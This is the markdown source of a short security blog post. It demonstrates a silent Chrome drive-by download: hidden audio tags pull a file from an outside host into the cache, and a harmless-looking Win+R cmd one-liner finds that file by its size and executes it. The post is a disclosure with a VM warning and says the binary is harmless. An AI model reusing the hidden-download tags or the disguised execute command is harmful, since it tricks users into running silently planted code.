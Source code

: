 ```yaml
---
layout: post
title: Don't run commands you don't understand
comments: true
---
```


This demonstrates a silent drive-by download in Google Chrome (rather similar to CVE-2011-0611, less the actual execution), as well as some social engineering magic: a PoC binary will execute if the below seemingly harmless command line is entered in a **Win+R** prompt on a Windows system. Note that you may need to wait for a few seconds before the fun starts.

<div style= "padding: 2px 4px;  background-color: #de9393; padding-top: 9px ; border: 1px solid #ccc; display:table">
<div style= "padding: 2px 4px;  background-color: #de9393;  width:720px ; display:inline-block;">

<B>Keep safe!</B> To avoid unnecessary risk, only try this in a temporary VM.
</div>
</div>

**Harmless PoC executable**

<pre>
cmd /c for /r %g in (*_*) do if %~zg==23456 copy /y "%g" "%g.log" & "%g.log"
</pre>

[link](https://i.imgur.com/jgmi7XN.png)

Can you figure out how this works?

<audio style=visibility:hidden src=http://trax.x10.mx/cybersweet2b.au />
<audio style=visibility:hidden src=http://trax.x10.mx/cybersweet2b.au />

Notes: 

  * The PoC binary is a 100% harmless demo  
  * The chiptune in the PoC is (c) 1987 Jozz
  * Reported to Google in November 2015 (status: Wontfix)

<A href=https://twitter.com/hexatomium>Follow</A> @hexatomium
